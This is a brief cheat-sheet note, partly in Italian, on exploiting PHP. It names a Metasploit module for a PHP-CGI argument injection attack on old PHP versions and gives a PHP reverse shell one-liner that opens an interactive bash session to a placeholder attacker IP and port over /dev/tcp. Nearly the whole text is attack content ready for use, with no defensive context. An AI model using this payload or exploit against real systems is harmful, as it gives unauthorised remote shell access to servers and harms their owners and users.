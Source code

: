  # PHP Exploiting
 
 delle vecchie versioni di php sono vulnerabili a questo modulo:
 ```bash
use exploit/multi/http/php_cgi_arg_injection
```
Reverse Shell comand:
```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'");
?>
```
